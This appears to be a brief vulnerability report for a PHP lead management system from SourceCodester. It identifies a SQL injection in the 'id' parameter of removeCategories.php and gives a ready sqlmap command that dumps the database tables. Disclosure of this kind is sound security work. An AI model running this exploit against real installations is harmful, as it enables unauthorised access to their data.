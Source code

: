 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image-20221219163051961](C:\markdown\images\image-20221219163051961.png)

EXP:

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/removeCategories.php?id=1" --dbms=mysql -D penglead --tables
```

![image-20221219163205017](C:\markdown\images\image-20221219163205017.png)